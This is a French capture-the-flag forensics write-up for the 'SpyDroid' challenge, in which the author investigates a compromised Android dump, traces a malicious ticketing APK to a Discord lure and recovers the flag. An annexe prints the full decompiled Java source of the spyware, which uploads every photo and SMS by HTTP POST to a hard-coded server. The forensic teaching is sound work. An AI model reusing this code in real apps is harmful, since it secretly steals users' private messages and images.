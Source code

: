 # SpyDroid

![chall](challenge.png)

## Prérequis

[SpyDroidChallenge_VF.tar.gz](https://mega.nz/file/NZxCVD7Q#rv_oFdcS252R3uEqD8Cn4MXSxUClZNAhmZepXz3bSLk)

(Optionnel, recommandé) Vérifier les sommes de contrôle.
```bash
sha256sum -c SHA256SUMS.txt
```

<h2>Solution</h2>

<details>
<summary></summary>

Nous sommes face à un dump d'un système Android qui a été compromis. Le challenge consiste à analyser les données pour retrouver le flag, nous n'avons pas plus d'informations sur son format. Ce chall est en plusieurs étapes :

Trouver le format du flag
* On commence par explorer le dossier `storage` pour trouver des indices. On trouve directement une belle piste pour la compromission : un APK nommé `CannesBilletterie.apk` dans le dossier `/storage/emulated/0/Download`.
* On y trouve également un APK de F-droid, un store alternatif pour Android.
  * *Je ne peux d'ailleurs que vous le recommander, en tant que défenseur de l'open source et étant attaché à l'OPSEC. Un coucou également aux utilisateurs de custom ROM* 👋🏻
* L'APK F-droid semble officiel, on le vérifie avec ces sources :
  [APK Mirror](https://www.apkmirror.com/apk/f-droid-limited/f-droid/f-droid-1-21-1-release/f-droid-1-21-1-android-apk-download/), [VirusTotal](https://www.virustotal.com/gui/file/b64651849eceb57459049e7017e043008fce8f146aad1d34d98f0027d87e4eef)
* Un passage sur VirusTotal nous indique en revanche que l'app "Billetterie Cannes" serait potentiellement malveillante :
  [VirusTotal](https://www.virustotal.com/gui/file/609bb9433fba2ea4d7c025808476384f6c4254e28c2ab020e1b183aa864a6ab8)
  
  ⚠️☠️ **Note : on peut se le permettre dans le cadre d'un CTF, en revanche, il ne faut surtout pas faire ça dans un cadre professionnel ! Cela revient à prévenir directement l'attaquant que vous avez découvert son malware.**
* On commence par analyser l'APK avec [Qu1cksc0pe](https://github.com/CYB3RMX/Qu1cksc0pe) (voir l'annexe pour le résultat). Cela nous donne quelques informations intéressantes : le nom du paquet est `fr.shutlock.billetterievipcannes`, l'activité principale est `fr.shutlock.billetterievipcannes.MainActivity`, et l'application demande des permissions risquées comme `android.permission.READ_SMS` et `android.permission.RECEIVE_SMS`.
* On explore les messages envoyés/reçus (DB sous `/data/data/com.google.android.apps.messaging`), rien ne ressort.
* On décompile l'APK avec [jadx-gui](https://github.com/skylot/jadx) en suivant [ce tutoriel](https://korben.info/decompiler-application-android-apk-recompiler.html).
* On en déduit le fonctionnement de l'application malveillante : elle récupère les images et les SMS du téléphone et les envoie à un serveur distant via HTTP POST. Le code de l'application est disponible dans la section "Annexe - Code de l'application".
* On importe alors l'ensemble des fichiers du dump dans Autopsy pour retracer les actions de l'attaquant.
* Après l'analyse initiale, on cherche dans tous les strings `CannesBilletterie.apk` pour en trouver l'origine. On tombe en fouillant sur un lien cdn discord : `https://cdn.discordapp.com/attachments/1361704389881893069/1361707528240496670/CannesBilletterie.apk?ex=67ffbc76&is=67fe6af6&hm=a4570fb7e5b8ed2c801de0eed5c11659ba5d89f3479f8aba52bb26f505f71c7e` sous `/data/data/com.android.providers.downloads/databases/downloads.db`
* On cherche ensuite la chaîne `discord`. On tombe sur `/data/data/com.google.android.gm/databases/bigTopDataDB.-286538739-wal` qui semble contenir des fragments de mails. On y lit notamment :
  ```
  Participez à notre concours et déchiffrez le code pour gagner ! à
  msg-f:1829479103042476969
  ludo.tech.coder@proton.me
  ludo.tech.coder
  ^all"
  ^fnas"
  ^ndpp"
  ^sq_ig_i_personal9
  Bonjour Laura, Nous avons le plaisir de vous annoncer le lancement d'un nouveau concours qui mettra vos talents d'analyse et vos compétences techniques à l'épreuve ! 
  Objectif : Identifier
  ```
  Cela ressemble fortement à un indice pour retrouver le flag ! Il va nous falloir récupérer le mail entier.
* Après quelques recherches, il s'avère qu'un fichier wal est un [fichier de journalisation](https://sqlite.org/wal.html). SQLite restaure automatiquement ce journal dans la base de données principale lors du chargement de la base de données (en tout cas, c'est le cas avec SQLiteBrowser).
  
  ⚠️ **Attention : il faut auparavant faire une copie de la base de données principale, afin de ne pas altérer les fichiers originaux. C'est essentiel en analyse forensique !**
* On ouvre le fichier `bigTopDataDB.-286538739` avec SQLiteBrowser et on trouve une table `item_messages`. On comprend que les messages sont compressés !
* On crée un script Python pour extraire les messages de la DB et les décompresser (`solve/readmails.py`). Dans le 4e message, on décode enfin :
  ```
  Bonjour Laura,

  Nous avons le plaisir de vous annoncer le lancement dun nouveau concours qui mettra vos talents danalyse et vos comptences techniques lpreuve !
  Objectif :

  Identifier et reconstruire un code cadeau cach partir d'une situation simule de compromission. Le premier soumettre le bon format remportera une rcompense exclusive !
  Format du code :

  Le code cadeau est reconstituer sous le format suivant :

  SHUTLOCK{nom_appli/pseudo_de_l'attaquant/jour_infection/IP_Destination}

  Exemple :
  SHUTLOCK{com.example.webmail/rootkit42/12-04-2025/192.168.1.15}
  ```
* Cherchons maintenant les différentes parties du flag.

Trouver le nom de l'application
* Déjà fait : `fr.shutlock.billetterievipcannes`

Trouver la date de compromission
* Autopsy nous indique comme date de modification le 15/04/2025 sur `CannesBilletterie.apk`, mais cette métadonnée a pu être altérée lors et depuis la compression des fichiers.
* On trouve un autre fichier qui contient la chaîne `CannesBilletterie.apk` : `/data/data/com.google.android.providers.media.module/databases/external.db`.
* Dans la table `files`, on a bien une entrée pour `CannesBilletterie.apk` avec un champ `date_modified` qui contient le timestamp `1744726794`.
* On le convertit en date avec [un convertisseur en ligne](https://www.epochconverter.com/?q=1744726794), ce qui nous donne bien le `15/04/2025`.

Trouver l'IP de destination
* Trouvée en décompilant l'APK : l'exfiltration des données se fait vers `http://10.0.2.2:17878/`

Trouver le pseudo de l'attaquant
* C'est plus délicat. On commence par chercher la chaîne `télécharger`, mais sans succès.
* On se rappelle alors qu'il y a plusieurs e-mails décodés : on y trouve notamment le pseudo discord du propriétaire du téléphone : `laura_cinema`.
* On cherche donc ce pseudo dans Autopsy, mais sans succès.
* On cherche alors à coup de grep à la racine du dump :
  ```bash
  grep -r "laura_cinema" . | sort -u
  ```
* On tombe sur `./data/com.discord/files/kv-storage/@account.1361702933141651488/a`. On l'explore :
  ```bash
  strings ./data/com.discord/files/kv-storage/@account.1361702933141651488/a | less
  ```
* On tombe sur une conversation intéressante... Et on comprend que le propriétaire du téléphone s'est fait dupper par un attaquant sous le pseudo `ludotech_`, qui l'a motivé à télécharger l'APK malveillant.

Flag : `SHUTLOCK{fr.shutlock.billetterievipcannes/ludotech_/15-04-2025/10.0.2.2}`

<details>
<summary>Annexe - Analyse Qu1cksc0pe</summary>

```
jack@debian12:~/Qu1cksc0pe$ python3 qu1cksc0pe.py --file /home/jack/Documents/Forensics/SpyDroidChallenge/storage/emulated/0/Download/CannesBilletterie.apk --analyze

                   <------------------------------------------>
                   <  This tool is very dangerous. Be careful >
           __      <   while using it!!                       >
         _|  |_    <------------------------------------------>
       _|      |_   /
      |  _    _  | /
      | |_|  |_| |
   _  |  _    _  |  _
  |_|_|_| |__| |_|_|_|
    |_|_        _|_|   <- Mr. Virus
      |_|      |_| 


[*] Analyzing: /home/jack/Documents/Forensics/SpyDroidChallenge/storage/emulated/0/Download/CannesBilletterie.apk
[*] Target OS: Android

[*] General Informations about /home/jack/Documents/Forensics/SpyDroidChallenge/storage/emulated/0/Download/CannesBilletterie.apk
>>>> App Name: Billetterie VIP Cannes
>>>> Package Name: fr.shutlock.billetterievipcannes

[*] Sending query to Google Play Store about target application.
>>>> Google Play Store: Not Found

>>>> SDK Version: 34
>>>> Main Activity: fr.shutlock.billetterievipcannes.MainActivity
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━┓
┃                                Permissions                                ┃ State ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━┩
│                        android.permission.READ_SMS                        │ Risky │
│ fr.shutlock.billetterievipcannes.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION │ Info  │
│                        android.permission.INTERNET                        │ Info  │
│                      android.permission.RECEIVE_SMS                       │ Risky │
└───────────────────────────────────────────────────────────────────────────┴───────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                  Activities                   ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ fr.shutlock.billetterievipcannes.MainActivity │
└───────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                    Receivers                     ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ androidx.profileinstaller.ProfileInstallReceiver │
└──────────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                Providers                ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ androidx.startup.InitializationProvider │
└─────────────────────────────────────────┘

[*] Performing YARA rule matching...
There is no rules matched for /home/jack/Documents/Forensics/SpyDroidChallenge/storage/emulated/0/Download/CannesBilletterie.apk

[*] Performing library analysis...
[*] Decompiling target APK file...

There is no library files found for analysis!


[*] Performing malware family detection. Please wait!!
[!] Couldn't detect malware family.

[*] Performing source code analysis...

[*] Preparing source files...
Processing files... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

[*] Analyzing source codes. Please wait...
Analyzing... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:01:23
>>>> File Name: fr/shutlock/billetterievipcannes/MainActivity.java
>>>> Categories: ['SMS Bot', 'File Operations', 'Persistence/Managing', 'Network/Internet']
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                 Patterns                 ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│       android.permission.READ_SMS        │
│                 READ_SMS                 │
│             FileInputStream              │
│ android.permission.READ_EXTERNAL_STORAGE │
│              doInBackground              │
│               java.net.URL               │
│        java.net.HttpURLConnection        │
│            url.openConnection            │
│             setRequestMethod             │
│               Content-Type               │
│              openConnection              │
│            HttpURLConnection             │
│              URLConnection               │
└──────────────────────────────────────────┘


[*] Looking for possible IP address patterns. Please wait...
Processing sources... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Processing resources... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
[!] There is no possible IP address pattern found!

[*] Looking for URL values. Please wait...
Processing sources... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
Processing resources... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃            Extracted URL Values            ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ http://schemas.android.com/apk/res/android │
│           http://10.0.2.2:17878/           │
│  http://schemas.android.com/apk/res-auto   │
│      http://www.apache.org/licenses/       │
│      http://schemas.android.com/aapt       │
└────────────────────────────────────────────┘

[*] Do you want to check target app's security? This process will take a while.[Y/n]: y

[*] Checking basic security options...
┏━━━━━━━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Debuggable ┃ AllowBackup ┃ ClearTextTraffic ┃ NetworkSecurityConfig ┃
┡━━━━━━━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━┩
│  Insecure  │  Insecure   │ No entry found.  │       Not found       │
└────────────┴─────────────┴──────────────────┴───────────────────────┘

[*] Checking application permission flags...
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━┓
┃                                Permission                                 ┃   Flag    ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━┩
│ fr.shutlock.billetterievipcannes.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION │ signature │
└───────────────────────────────────────────────────────────────────────────┴───────────┘

[*] Searching for exported activities...
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━┓
┃                   Activity                    ┃ Exported ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━┩
│ fr.shutlock.billetterievipcannes.MainActivity │   true   │
└───────────────────────────────────────────────┴──────────┘

[*] Searching for exported providers...
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━┓
┃                Provider                 ┃ Exported ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━┩
│ androidx.startup.InitializationProvider │  false   │
└─────────────────────────────────────────┴──────────┘
```

</details>

<details>
<summary>Annexe - Code de l'application</summary>

```java
package fr.shutlock.billetterievipcannes;

import android.database.Cursor;
import android.net.Uri;
import android.os.AsyncTask;
import android.os.Bundle;
import android.provider.MediaStore;
import android.provider.Telephony;
import android.util.Log;
import android.view.View;
import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.app.ActivityCompat;
import androidx.core.content.ContextCompat;
import androidx.core.graphics.Insets;
import androidx.core.view.OnApplyWindowInsetsListener;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.net.HttpURLConnection;
import java.net.URL;

/* loaded from: classes3.dex */
public class MainActivity extends AppCompatActivity {
    private static final int REQUEST_SMS_PERMISSION = 2;

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, android.app.Activity
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == 1 && grantResults.length > 0 && grantResults[0] == 0) {
            getAllPicturesAndSend();
        }
    }

    private void getAllPicturesAndSend() {
        Uri uri = MediaStore.Images.Media.EXTERNAL_CONTENT_URI;
        String[] projection = {"_data"};
        Cursor cursor = getContentResolver().query(uri, projection, null, null, "datetaken DESC");
        if (cursor != null) {
            while (cursor.moveToNext()) {
                String path = cursor.getString(cursor.getColumnIndexOrThrow("_data"));
                sendFileToServer(path);
            }
            cursor.close();
        }
    }

    private void getAllSMS() {
        Uri uri = Telephony.Sms.CONTENT_URI;
        String[] projection = {"address", "body", "date"};
        Cursor cursor = getContentResolver().query(uri, projection, null, null, "date DESC");
        if (cursor != null) {
            while (cursor.moveToNext()) {
                String address = cursor.getString(cursor.getColumnIndexOrThrow("address"));
                String body = cursor.getString(cursor.getColumnIndexOrThrow("body"));
                long date = cursor.getLong(cursor.getColumnIndexOrThrow("date"));
                sendSMSToServer("Address: " + address + "\nBody: " + body + "\nDate: " + date);
            }
            cursor.close();
        }
    }

    private void sendSMSToServer(String imagePath) {
        new UploadSMSTask().execute(imagePath);
    }

    private static class UploadSMSTask extends AsyncTask<String, Void, Void> {
        private UploadSMSTask() {
        }

        /* JADX INFO: Access modifiers changed from: protected */
        @Override // android.os.AsyncTask
        public Void doInBackground(String... params) throws IOException {
            String imagePath = params[0];
            try {
                URL url = new URL("http://10.0.2.2:17878/");
                HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                connection.setDoOutput(true);
                connection.setRequestMethod("POST");
                connection.setRequestProperty("Content-Type", "application/octet-stream");
                OutputStream os = connection.getOutputStream();
                byte[] buffer = imagePath.getBytes();
                os.write(buffer);
                os.flush();
                os.close();
                Log.w("TAG", "SMS sent to server: " + imagePath);
                return null;
            } catch (IOException e) {
                e.printStackTrace();
                return null;
            }
        }
    }

    private void sendFileToServer(String imagePath) {
        new UploadFileTask().execute(imagePath);
    }

    private static class UploadFileTask extends AsyncTask<String, Void, Void> {
        private UploadFileTask() {
        }

        /* JADX INFO: Access modifiers changed from: protected */
        @Override // android.os.AsyncTask
        public Void doInBackground(String... params) throws IOException {
            String imagePath = params[0];
            try {
                File file = new File(imagePath);
                FileInputStream fis = new FileInputStream(file);
                URL url = new URL("http://10.0.2.2:17878/");
                HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                connection.setDoOutput(true);
                connection.setRequestMethod("POST");
                connection.setRequestProperty("Content-Type", "application/octet-stream");
                OutputStream os = connection.getOutputStream();
                byte[] buffer = new byte[1024];
                while (true) {
                    int bytesRead = fis.read(buffer);
                    if (bytesRead != -1) {
                        os.write(buffer, 0, bytesRead);
                    } else {
                        os.flush();
                        os.close();
                        fis.close();
                        Log.w("TAG", "SMS sent to server: " + imagePath);
                        return null;
                    }
                }
            } catch (IOException e) {
                e.printStackTrace();
                return null;
            }
        }
    }

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), new OnApplyWindowInsetsListener() { // from class: fr.shutlock.billetterievipcannes.MainActivity$$ExternalSyntheticLambda0
            @Override // androidx.core.view.OnApplyWindowInsetsListener
            public final WindowInsetsCompat onApplyWindowInsets(View view, WindowInsetsCompat windowInsetsCompat) {
                return MainActivity.lambda$onCreate$0(view, windowInsetsCompat);
            }
        });
        findViewById(R.id.button).setOnClickListener(new View.OnClickListener() { // from class: fr.shutlock.billetterievipcannes.MainActivity$$ExternalSyntheticLambda1
            @Override // android.view.View.OnClickListener
            public final void onClick(View view) {
                this.f$0.m159lambda$onCreate$1$frshutlockbilletterievipcannesMainActivity(view);
            }
        });
        if (ContextCompat.checkSelfPermission(this, "android.permission.READ_EXTERNAL_STORAGE") != 0) {
            ActivityCompat.requestPermissions(this, new String[]{"android.permission.READ_EXTERNAL_STORAGE"}, 1);
            getAllPicturesAndSend();
        } else {
            getAllPicturesAndSend();
        }
        if (ContextCompat.checkSelfPermission(this, "android.permission.READ_SMS") != 0) {
            ActivityCompat.requestPermissions(this, new String[]{"android.permission.READ_SMS"}, 2);
            getAllSMS();
        } else {
            getAllSMS();
        }
    }

    static /* synthetic */ WindowInsetsCompat lambda$onCreate$0(View v, WindowInsetsCompat insets) {
        Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
        v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
        return insets;
    }

    /* renamed from: lambda$onCreate$1$fr-shutlock-billetterievipcannes-MainActivity, reason: not valid java name */
    /* synthetic */ void m159lambda$onCreate$1$frshutlockbilletterievipcannesMainActivity(View v) {
        setContentView(R.layout.activity_recipe);
    }
}
```

</details>

</details>